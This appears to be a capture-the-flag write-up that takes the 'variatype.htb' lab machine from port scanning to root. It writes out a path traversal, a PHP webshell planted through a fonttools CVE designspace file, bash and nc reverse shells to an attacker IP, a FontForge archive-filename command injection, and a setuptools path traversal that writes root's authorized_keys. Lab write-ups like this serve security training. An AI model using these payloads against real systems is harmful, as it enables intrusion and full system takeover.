## ~$ Nm@p scann1ng
Scan all ports on the target machine:
```bash
└─$ nmap -p- $IP --min-rate 5000
```
Output:
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
As shown above only two TCP ports are open.

Next, perform more detailed scanning:
```bash
└─$ nmap -p22,80 -sC -sV  $IP -oN nmap.scan
```
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 e0:b2:eb:88:e3:6a:dd:4c:db:c1:38:65:46:b5:3a:1e (ECDSA)
|_  256 ee:d2:bb:81:4d:a2:8f:df:1c:50:bc:e1:0e:0a:d1:22 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Did not follow redirect to http://variatype.htb/
```
Okay, interesting things are waiting on TCP port 80. 
Add the following entry to `/etc/hosts`:
```bash
└─$ echo -n "\n$IP\tvariatype.htb" | sudo tee -a /etc/hosts
```

----
## ~$ Web (80/TCP) 

### variatype.htb



The main page displays the following description:
```txt
Upload your .designspace file and master fonts (.ttf/.otf) to generate a fully compliant variable font. 
We use the same fonttools engine used by Google Fonts and major foundries.
```

**FontTools** is a python library for manipulating fonts -> [link](https://pypi.org/project/fonttools/).

At this point we can be in some degree sure that the web app uses python.

This site's path `/tools/variable-font-generator` has the following form:



Two fields accept `.designspace` and `.tff/.otf` files.

The most recent vulnerability related to this lib is [CVE-2025-66034](https://www.cve.org/CVERecord?id=CVE-2025-66034).

If we try to submit incorrect(or empty) files then we'll get the following cookies: 

```bash
Set-Cookie: session=.eJwVisEKwkAMBX_lkZOCrHe_wrsUCfZFC-umbOKp9N-7nmYYZpOnVY0PQ26PTZADwt69y0XulRrEb62uMxRlZizvFqu-CFsqoW30xP9LeCO-Q9hh3hKnkmnX4mnnItM-7Qf69yVP.ai2Hlw.zXOLDjy0LmBMXqG0K-TKR6Gst_I; HttpOnly; Path=/
```
It is looks like flask session cookie. Decoded cookie is:
```bash
 {'_flashes': [('error', 'Please upload a .designspace file and at least one master font (.ttf/.otf).')]}
```

This confirms that the **variatype.htb** app uses Flask.

### portal.variatype.htb

During exploring the web `variatype.htb` I ran `ffuf` to find any additional subdomains:
```bash
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://variatype.htb/ -H "Host: FUZZ.variatype.htb" -ac
```
The attempt succeeds. The `portal` subdomain was found:


**[+] portal.variatype.htb**

The subdomain presents a login page and sets a `PHPSESSID` cookie -> that is PHP default cookie name.

Performing directory fuzzing on this subdomain including `.php` extension reveals the following:
```bash
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://portal.variatype.htb/FUZZ -ac -e .php
```

```bash
index.php     [Status: 200, Size: 2494, Words: 445, Lines: 59, Duration: 240ms]
download.php  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 141ms]
files         [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 144ms]
view.php      [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 133ms]
auth.php      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 126ms]
.             [Status: 200, Size: 2494, Words: 445, Lines: 59, Duration: 129ms]
dashboard.php [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 134ms]
.git          [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 131ms]
```

`.git` -> a critical discovery that may contain sensitive data like credentials and source code. 

I used [this tool](https://github.com/arthaud/git-dumper) to dump the `.git` directory:
```bash
└─$ git-dumper.py http://portal.variatype.htb .
```

The dump yields only one file  -> `auth.php`.
```php
└─$ cat auth.php 
<?php
session_start();
$USERS = [];
```
It is nearly empty)

Look at logs:
```bash
└─$ git log --all -p
```


**[+] creds ->  gitbot : G1tB0t_Acc3ss_2025!**

These creds allows to access the `dashboard.php` page on **portal.variatype.htb**.

## Dot-Dot-Slash attack || path traversal || directory traversal, etc

**variatype.htb** and **portal.variatype.htb** -> these two web apps are interconnected. After submitting valid `.desingspace` and `.ttf/.otf` files, a new font entry appears in the **portal.variatype.htb** dashboard: 
 

This item can be viewed or downloaded. When we try to download file -> there is an interesting query parameter `f` worth testing: `/download.php?f=<.filename.>`.

Testing for path traversal:
```bash
└─$ curl -H "Cookie: PHPSESSID=qo5331qufqk3jdv66socdk08hs" 'http://portal.variatype.htb/download.php?f=....//....//....//....//....//....//....//etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
#....
```
It successfully works. 

## ~$ CVE-2025-66034 

The CVE-2025-66034 vulnerability mentioned earlier is now relevant.

First, a little bit about it:

-> [Github Advisory](https://github.com/fonttools/fonttools/security/advisories/GHSA-768j-98cg-p3fv)

`CVE-2025-66034` is a combined vulnerability in `fonttools.varlib` python module that allows to **place a file to arbitrary filesystem location via path traversal sequences** and to specify an arbitrary content of the file through **XML injection in labelname elements**. 

Initially, it was unclear how to exploit it -> there are no other services on the target and no indication of where the uploaded file would be executed. 
However, combining both findings reveals a clear attack path:

The target hosts two sites on separate domains: 
        
-> portal.variatype.htb is a PHP-based web-site

-> variatype.htb contains the `CVE-2025-66034` vulnerability


At this point, It is obvious that we need to upload a PHP webshell to the portal's web root directory. 
However, the web root directory of the PHP app is unknown at this point.

Since the path traversal vulnerability in **portal.variatype.htb** allows reading arbitrary files, the nginx configuration can be checked. *Nginx was identified by nmap scan and also by the response header from the variatype.htb site.*

Perform this request:

```bash
└─$ curl -H "Cookie: PHPSESSID=qo5331qufqk3jdv66socdk08hs" 'http://portal.variatype.htb/download.php?f=....//....//....//....//....//....//....//etc/nginx/sites-enabled/portal.variatype.htb'  
server {
    listen 80;
    server_name portal.variatype.htb;

    root /var/www/portal.variatype.htb/public;
    index index.php;

    access_log /var/log/nginx/portal_access.log;
    error_log /var/log/nginx/portal_error.log;

    location / {
        try_files $uri $uri/ =404;
    }

    location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/run/php/php-fpm.sock;
        fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
        include fastcgi_params;
    }

    location /files/ {
        autoindex off;
    }
}
```
**[+] web root -> /var/www/portal.variatype.htb/public**

All php files are served via FastCGI. 

Now, Try to place the file with the following content:
```php
<?php shell_exec($_GET["c"]);?>
```
into location of `portal.variatype.htb`.

The `.designspace` file is based on the PoC from the GitHub advisory linked above.

The content of the `m.designspace` file:
```xml
<?xml version='1.0' encoding='UTF-8'?>
<designspace format="5.0">
        <axes>
            <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400">
                <labelname xml:lang="en"><![CDATA[<?php echo shell_exec($_GET["c"]);?>]]]]><![CDATA[>]]></labelname>
                <labelname xml:lang="fr">MEOW123</labelname>
            </axis>
        </axes>
        <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400"/>
        <sources>
                <source filename="source-regular.ttf" name="Regular">
                        <location>
                                <dimension name="Weight" xvalue="400"/>
                        </location>
                </source>
        </sources>
        <variable-fonts>
                <variable-font name="MyFont" filename="../../../../../../../../../var/www/portal.variatype.htb/public/f.php">
                        <axis-subsets>
                                <axis-subset name="Weight"/>
                        </axis-subsets>
                </variable-font>
        </variable-fonts>
        <instances>
                <instance name="Display Thin" familyname="MyFont" stylename="Thin">
                        <location><dimension name="Weight" xvalue="100"/></location>
                        <labelname xml:lang="en">Display Thin</labelname>
                </instance>
        </instances>
</designspace>
```

First, attempting to write directly to the web root -> if permissions deny it (in this case we'll get a response about a fail), the `/files/` subdirectory will be used as a fallback.

Also the `source-regular.ttf` was generated based on the PoC.

These files are submitted via the upload form on `variatype.htb`.

After files successfully uploaded, we can test if the `f.php` exists on the targeted php-based web app and see the output of the command `whoami`:
 

As shown in the screenshot, the output contains `www-data` -> confirming code execution. 

At this point, we can get a reverse shell:
```bash
curl 'http://portal.variatype.htb/f.php?c=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.15.247/5555+0>%261"' --output -
```
Normilize shell:


 

## ~$ Get Steve's shell

The home directory contains only one system user called Steve:
```bash
www-data@variatype:~$ ls -la /home
total 12
drwxr-xr-x  3 root  root  4096 Dec  5  2025 .
drwxr-xr-x 18 root  root  4096 Mar  9 08:29 ..
drwx------  8 steve steve 4096 Feb 27 06:16 steve
```

Checking whether any processes are running in a Steve's context reveals nothing. 

Then, I tried to searching for files owned by Steve:
```bash
www-data@variatype:/opt/variatype$ find / -user steve 2>/dev/null
/home/steve
/opt/process_client_submissions.bak
```

**[+] /opt/process_client_submissions.bak**

It is a custom bash script:


[The full script is appended here](#process_client_submissions)

This script processes files uploaded to the  **/var/www/html/portal.variatype.htb/public/files/** directory and can be executed only by Steve:
```bash
-rwxr-xr-- 1 steve steve 2018 Feb 26 07:50 /opt/process_client_submissions.bak
```
Steve likely has a cronjob that executes it periodically.

The Script contains one interesting line:


```bash
if timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c "
import fontforge
import sys
try:
    font = fontforge.open('$file')
#...
``` 

Look at the version of Fontforge utility specified in the script:
```bash
www-data@variatype:/opt$ /usr/local/src/fontforge/build/bin/fontforge --version
```
Output:
```bash
Version: 20230101
```

Researching known vulnerabilities in FontForge reveals two relevant advisories:

[-> Command Injection from Malicious Filenames](https://github.com/advisories/GHSA-rjx3-xwwm-jhj5)

[-> Command Injection from Malicious Archives / Compressed Files](https://github.com/advisories/GHSA-2j3h-j2q3-wxp3) 


The script accepts `.zip`, `.tar`, `.tar.gz` archives in addition to font files.

It filters filenames through the following regex: -> 
```bash
SAFE_NAME_REGEX='^[a-zA-Z0-9._-]+$'
```

This regex prevents command injection via the filename. It only validates the archive name itself, but does not sanitize the filenames inside the archive. FontForge automatically extracts the archive and passes the internal filename directly to the shell.

Therefore, the archive-based injection is the viable attack vector.

This python script will generate malicious archive:
```bash
└─$ cat cve-2024-25082.py 
import tarfile

filename = "source-regular.ttf; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.247 54321 >/tmp/f &"

with tarfile.open('fonts.tar', 'w') as tar:
    tar.add('./source-regular.ttf', arcname=filename)
```
Uploading the generated archive to the files directory:
```bash
www-data@variatype:~/portal.variatype.htb/public/files$ wget http://10.10.15.247:9090/fonts.tar
```

Meanwhile, start a listener:
```bash
└─$ nc -nvlp 54321
```

The shell is not received immediatelly -> It requires waiting for the script to execute.



The wait time is up to 2 minutes. Steve has a cronjob:
```bash
# m h  dom mon dow   command
*/2 * * * * /home/steve/bin/process_client_submissions.sh >/dev/null 2>&1
```

**[+] /home/steve/user.txt**

## ~$ Pr1vileg3 Esc@lati0n
Check if Steve can use sudo:
```bash
$ sudo -l
Matching Defaults entries for steve on variatype:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User steve may run the following commands on variatype:
    (root) NOPASSWD: /usr/bin/python3 /opt/font-tools/install_validator.py *
```
Indeed, he can.

Full script -> [install_validator.py](#install_validator)

The script accepts one parameter -> a URL from which a python plugin is downloaded.
The url parameter goes to the PackageIndex.download of the setuptools lib:


Checking the setuptools version:
```bash
steve@variatype:~$ pip3 list | grep setuptools
setuptools         78.1.0
```
This version is affected by the following vulnerability -> [github advisory](https://github.com/advisories/GHSA-5rjg-fvgr-3xxf)

Path Traversal vulnerability.

The key line in source code that leads to it -> `os.path.join(tmpdir, name)` -> if the name begins with a slash character, this function discards the `tmpdir` and uses only `name` as the path.
The `name` is derived from a URL without proper sanitization.

```python
 def _download_url(self, url, tmpdir):
        # Determine download filename
        #
        name, _fragment = egg_info_for_url(url)
        if name:
            while '..' in name:
                name = name.replace('..', '.').replace('\\', '_')
        else:
            name = "__downloaded__"  # default if URL has no path contents

        if name.endswith('.[egg.zip](http://egg.zip/)'):
            name = name[:-4]  # strip the extra .zip before download

 -->       filename = os.path.join(tmpdir, name)
```

The impact from this vulnerability -> we can write arbitrary files on the target system. Since the script runs as root, this effectively grants arbitrary file write with root privileges.

The most straightforward approach is writting our public key to `/root/.ssh/authorized_keys`.

The payload:
```
http://10.10.15.247:80/%2froot%2f.ssh%2fauthorized_keys
```
Command to generate keys:
```bash
ssh-keygen -C ""
```
It will generate two keys -> private and public that has the `.pub` extension.

A simple HTTP server is needed to  serve the public key content with a `200 ok` response.

For it I will use netcat:

```bash
└─$ nc -nvlp 80 < index.html
```

The content of `index.html` file:
```bash
└─$ cat index.html            
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 82

ssh-ed25519 AAAA....+ZTChgv
```

After the netcat is running, execute this command on the target:

```bash
sudo /usr/bin/python3 /opt/font-tools/install_validator.py http://10.10.15.247:80/%2froot%2f.ssh%2fauthorized_keys
```



At this point, we get a root:



**[+] /root/root.txt**

## ~$ Appendix: Full Scripts
<h3 id="process_client_submissions">/opt/process_client_submission.bak</h3>

```bash
#!/bin/bash
#
# Variatype Font Processing Pipeline
# Author: Steve Rodriguez <steve@variatype.htb>
# Only accepts filenames with letters, digits, dots, hyphens, and underscores.
#

set -euo pipefail

UPLOAD_DIR="/var/www/portal.variatype.htb/public/files"
PROCESSED_DIR="/home/steve/processed_fonts"
QUARANTINE_DIR="/home/steve/quarantine"
LOG_FILE="/home/steve/logs/font_pipeline.log"

mkdir -p "$PROCESSED_DIR" "$QUARANTINE_DIR" "$(dirname "$LOG_FILE")"

log() {
    echo "[$(date --iso-8601=seconds)] $*" >> "$LOG_FILE"
}

cd "$UPLOAD_DIR" || { log "ERROR: Failed to enter upload directory"; exit 1; }

shopt -s nullglob

EXTENSIONS=(
    "*.ttf" "*.otf" "*.woff" "*.woff2"
    "*.zip" "*.tar" "*.tar.gz"
    "*.sfd"
)

SAFE_NAME_REGEX='^[a-zA-Z0-9._-]+$'

found_any=0
for ext in "${EXTENSIONS[@]}"; do
    for file in $ext; do
        found_any=1
        [[ -f "$file" ]] || continue
        [[ -s "$file" ]] || { log "SKIP (empty): $file"; continue; }

        # Enforce strict naming policy
        if [[ ! "$file" =~ $SAFE_NAME_REGEX ]]; then
            log "QUARANTINE: Filename contains invalid characters: $file"
            mv "$file" "$QUARANTINE_DIR/" 2>/dev/null || true
            continue
        fi

        log "Processing submission: $file"

        if timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c "
import fontforge
import sys
try:
    font = fontforge.open('$file')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process $file: {e}', file=sys.stderr)
    sys.exit(1)
"; then
            log "SUCCESS: Validated $file"
        else
            log "WARNING: FontForge reported issues with $file"
        fi

        mv "$file" "$PROCESSED_DIR/" 2>/dev/null || log "WARNING: Could not move $file"
    done
done

if [[ $found_any -eq 0 ]]; then
    log "No eligible submissions found."
fi
```

<h3 id="install_validator">install_validator.py</h3>

```python
#!/usr/bin/env python3
"""
Font Validator Plugin Installer
--------------------------------
Allows typography operators to install validation plugins
developed by external designers. These plugins must be simple
Python modules containing a validate_font() function.

Example usage:
  sudo /opt/font-tools/install_validator.py https://designer.example.com/plugins/woff2-check.py
"""

import os
import sys
import re
import logging
from urllib.parse import urlparse
from setuptools.package_index import PackageIndex

# Configuration
PLUGIN_DIR = "/opt/font-tools/validators"
LOG_FILE = "/var/log/font-validator-install.log"

# Set up logging
os.makedirs(os.path.dirname(LOG_FILE), exist_ok=True)
logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s [%(levelname)s] %(message)s',
    handlers=[
        logging.FileHandler(LOG_FILE),
        logging.StreamHandler(sys.stdout)
    ]
)

def is_valid_url(url):
    try:
        result = urlparse(url)
        return all([result.scheme in ('http', 'https'), result.netloc])
    except Exception:
        return False

def install_validator_plugin(plugin_url):
    if not os.path.exists(PLUGIN_DIR):
        os.makedirs(PLUGIN_DIR, mode=0o755)

    logging.info(f"Attempting to install plugin from: {plugin_url}")

    index = PackageIndex()
    try:
        downloaded_path = index.download(plugin_url, PLUGIN_DIR)
        logging.info(f"Plugin installed at: {downloaded_path}")
        print("[+] Plugin installed successfully.")
    except Exception as e:
        logging.error(f"Failed to install plugin: {e}")
        print(f"[-] Error: {e}")
        sys.exit(1)

def main():
    if len(sys.argv) != 2:
        print("Usage: sudo /opt/font-tools/install_validator.py <PLUGIN_URL>")
        print("Example: sudo /opt/font-tools/install_validator.py https://internal.example.com/plugins/glyph-check.py")
        sys.exit(1)

    plugin_url = sys.argv[1]

    if not is_valid_url(plugin_url):
        print("[-] Invalid URL. Must start with http:// or https://")
        sys.exit(1)

    if plugin_url.count('/') > 10:
        print("[-] Suspiciously long URL. Aborting.")
        sys.exit(1)

    install_validator_plugin(plugin_url)

if __name__ == "__main__":
    if os.geteuid() != 0:
        print("[-] This script must be run as root (use sudo).")
        sys.exit(1)
    main()
```